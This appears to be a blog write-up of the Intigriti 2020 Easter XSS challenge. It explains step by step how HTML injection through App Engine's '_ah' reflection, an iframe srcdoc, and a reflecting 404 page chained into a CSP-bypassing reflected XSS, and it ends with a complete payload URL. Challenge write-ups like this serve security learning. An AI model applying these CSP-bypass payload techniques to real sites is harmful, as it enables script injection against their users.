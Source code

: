 ```yaml
---
layout: post
title: "Intigriti 2020 Easter XSS challenge writeup"
---
```


This Easter [intigrity](https://www.intigriti.com/) ran an xss challenge. Out of all correct submissions they drew one winner to get a Burp Suite Pro License. I was not the lucky one :) but I had a lot of fun solving it and I'd love to share some things I've learned about bypassing CSP with you.


# Step 0. The challenge.

So, the challenge was to find xss on a rather simple page hosted on: [https://challenge.intigriti.io/](https://challenge.intigriti.io/). The rules for the solution were:
* Should work on the latest version of Firefox or Chrome
* Should bypass CSP
* Should execute the following JS: alert(document.domain)
* Should be executed on this page, on this domain

CSP was set in headers to:
```
content-security-policy: default-src 'self'
```
so nothing, except of `<script src="./....">` was allowed, and there was only one js file used on the page:

{% highlight js  linenos %}
var hash = document.location.hash.substr(1);
if(hash){
  displayReason(hash);
}
document.getElementById("reasons").onchange = function(e){
  if(e.target.value != "")
    displayReason(e.target.value);
}
function reasonLoaded () {
    var reason = document.getElementById("reason");
    reason.innerHTML = unescape(this.responseText);
}
function displayReason(reason){
  window.location.hash = reason;
  var xhr = new XMLHttpRequest();
  xhr.addEventListener("load", reasonLoaded);
  xhr.open("GET",`./reasons/${reason}.txt`);
  xhr.send();
}
{% endhighlight %}

# Step 1. Injecting arbitrary html.

The quick look at the code shows us that we have an execution sink at line 11. But can we control the data that flows into this sink? Well, partially as it is an `unescape`d response from xhr request for which we can determine part of url using `location.hash` source (lines 14 and 17).

The [unescape](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/unescape) funciton basically reverts efects of `escape`, for example:

```javascript
unescape('%23hello%2f') === "#hello/"
```
Therefore it'd be wonderful if we can find any endpoint that would reflect url-encoded strings to inject anything we want into `reason`'s innerHTML.

A bit of fuzzing with [dirsearch](https://github.com/maurosoria/dirsearch) reveals that paths that start with `challenge.intigriti.io/_ah` behave differently, than other paths for non-existing resources, they reflect url-encoded strings. Bingo!

For example: https://challenge.intigriti.io/_ah%3Ch1%3Ehello%3C/h1%3E was giving us:

```html
...
<h2>Your client does not have permission to the requested URL <code>/_ah%3Ch1%3Ehello%3C/h1%3E</code>
...
```

Great!

Moreover, using `../` in `location.hash` we are able to put response generated by `./_ah...` in our `innerHTML` execution sink.

Now, we are able to inject any html on our page. Let's say we want to inject `<h1>hello</h1>`. All we need to do is to simply use the following url:
```
https://challenge.intigriti.io/#../_ah%3C/code%3E%3Ch1%3Ehello%3C/h1%3E
```

(note that we are also closing `<code>` tag, that is present in response here)

Unfortunately, due to `default-src 'self'` csp, we cannot just inject `<img src=something onerror=alert(document.domain)>` and call it a day.


### fun fact
Using this `_ah` was not an intended way to solve this challenge. This behaviour was caused by `_ah` being one of the [reserved url's](https://cloud.google.com/appengine/docs/standard/python/config/appref#Python_app_yaml_Reserved_URLs) of app engine which hosted this challenge.

# Step 2. Injecting `<script src=...>`

`innerHTML` let's us do a lot of cool things, but it won't enable us to execute code using `<script>` tag, so we need to find another way.

After trying lot's of different stuff, I've found [srcdoc](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-srcdoc) attribute of iframe useful. We can simply create an iframe with `<script src="https://example.com/our_script.js"></script>` via srcdoc in the following way:

```html
<iframe
  srcdoc="&lt;script src=https://example.com/our_script.js&gt;&lt;/script&gt;"
></iframe>
```

and inject it using the method from step 1.:
```
https://challenge.intigriti.io/#../_ah%3Ciframe%20srcdoc=%22%26lt%3bscript%20src=https://example.com/our_script.js%26gt%3b%26lt%3b%2fscript%26gt%3b%22%3E%3C/iframe%3E
```

But again, csp won't let us to execute anything outside of `challenge.intigriti.io`:

```
Content Security Policy: The page’s settings blocked the loading of a resource at https://example.com/our_script.js (“default-src”).
```

# Step 3. Crafting payload with https://challenge.intigriti.io/ origin.

We are missing one last thing to execute our JS. We need to have a script somewhere under `https://challenge.intigriti.io/`.

What happens when we try to access a random path on https://challenge.intigriti.io/ ?

https://challenge.intigriti.io/foobar responds with:
```html
404 - 'File "foobar" was not found in this folder.'
```

Nice. Can we turn it into a valid JS file? Yes! and
```
https://challenge.intigriti.io/';alert(document.domain)';
```
responds with:
```html
404 - 'File "';alert(document.domain)';" was not found in this folder.'
```

Which is a payload we needed!


# Step 4. Putting all pieces together.

Now we have everything we need to get our reflected XSS. The following url executes `alert(document.domain)` on [https://challenge.intigriti.io/](https://challenge.intigriti.io/) :
```
https://challenge.intigriti.io/#../_ah%3C/code%3E%3Ciframe%20srcdoc=%22%26lt%3bscript%20src=foo/';alert(document.domain);'%26gt%3b%26lt%3b%2fscript%26gt%3b%22%3E%3C/iframe%3E
```
**Voila!**

![xss]({{ "/assets/intigriti_xss.gif" | relative_url }})
